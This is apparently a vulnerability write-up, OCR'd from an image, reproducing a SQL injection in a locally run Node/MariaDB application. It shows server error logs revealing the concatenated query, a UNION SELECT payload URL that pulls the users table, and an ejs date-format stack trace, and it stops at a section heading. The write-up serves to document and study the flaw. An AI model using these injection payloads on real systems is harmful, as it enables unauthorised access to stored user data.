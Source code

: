 After installing all the libs (node,npm,mariadb) required and downgraded the dateformat lib, we were able to have a local server
running the affected code. <br/>
Here we go, let's try a simple test
```
http://127.0.0.1:1155/detail/2,a1=2
```
we can see in the logs of the web service
```
code: 'ER_BAD_FIELD_ERROR',
  errno: 1054,
  sqlMessage: "Unknown column 'a1' in 'where clause'",
  sqlState: '42S22',
  index: 0,
  sql: "SELECT * FROM uniquecontact WHERE id=2 OR id=a1=2 OR id='0'"

```
so every parameters passed after a comma is appended to the column 'id' and concatenated to the where sql string (as of the code). 
<br/>Let's try with a UNION! ..... we have just 2 tables in our local db file with the same numbers of columns: users and uniquecontact  ;)
<br/>Do not forget that we have to insert some records in the users table first, otherwise we won't see anything!<br/>
```
http://127.0.0.1:1155/detail/2,2%20UNION%20SELECT%20*%20FROM%20users%20where%20id=id
```
## Template dateFormat error

```
TypeError: /app/webpage/detail.ejs:29
    27|                             -
    28|                         <% }else { %>
 >> 29|                             <%= dateFormat(encontact.date_update, "mmmm dS, yyyy h:MM:ss") %>
    30|                         <% } %>                     
    31|                         </li>
    32|                     </ul>

Invalid date
    at Object.dateFormat (/app/node_modules/dateformat/lib/dateformat.js:39:17)
    at eval (eval at compile (/app/node_modules/ejs/lib/ejs.js:618:12), <anonymous>:45:26)
    at Array.forEach (<anonymous>)
    at eval (eval at compile (/app/node_modules/ejs/lib/ejs.js:618:12), <anonymous>:21:18)
    at returnedFn (/app/node_modules/ejs/lib/ejs.js:653:17)
    at tryHandleCache (/app/node_modules/ejs/lib/ejs.js:251:36)
    at View.exports.renderFile [as engine] (/app/node_modules/ejs/lib/ejs.js:482:10)
    at View.render (/app/node_modules/express/lib/view.js:135:8)
    at tryRender (/app/node_modules/express/lib/application.js:640:10)
    at Function.render (/app/node_modules/express/lib/application.js:592:3)
```

## First Contstraint
